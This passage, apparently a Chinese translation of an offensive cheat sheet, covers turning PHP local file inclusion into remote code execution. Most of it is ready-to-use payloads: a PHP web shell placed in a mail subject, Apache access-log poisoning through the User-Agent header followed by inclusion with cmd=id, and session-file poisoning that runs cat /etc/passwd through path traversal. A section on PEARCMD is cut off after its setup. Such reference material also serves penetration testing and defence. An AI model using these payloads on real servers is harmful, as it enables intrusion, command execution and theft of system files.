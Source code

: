 在某些情况下，您还可以使用`mail`命令行发送电子邮件。

```powershell
mail -s "<?php system($_GET['cmd']);?>" www-data@10.10.10.10. < /dev/null
```

### 通过Apache日志进行RCE

在访问日志中投毒用户代理：

```ps1
curl http://example.org/ -A "<?php system(\$_GET['cmd']);?>"
```

注意：日志会转义双引号，因此在PHP有效载荷中使用单引号。

然后通过LFI请求日志并执行命令。

```ps1
curl http://example.org/test.php?page=/var/log/apache2/access.log&cmd=id
```

## 通过PHP会话进行LFI到RCE

检查网站是否使用PHP会话（PHPSESSID）

```javascript
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
```

在PHP中，这些会话存储在`/var/lib/php5/sess_[PHPSESSID]`或`/var/lib/php/sessions/sess_[PHPSESSID]`文件中。

```javascript
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
```

设置cookie为`<?php system('cat /etc/passwd');?>`

```powershell
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
```

使用LFI包含PHP会话文件

```powershell
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27
```

## 通过PHP PEARCMD进行LFI到RCE

PEAR是一个用于可重用PHP组件的框架和分发系统。默认情况下，`pearcmd.php`安装在[Docker PHP镜像](https://hub.docker.com/_/php)中的`/usr/local/lib/php/pearcmd.php`。

文件`pearcmd.php`使用`$_SERVER['argv']`获取其参数。此攻击需要在PHP配置（`php.ini`）中将`register_argc_argv`设置为`On`。

```ini
register_argc_argv = On
```
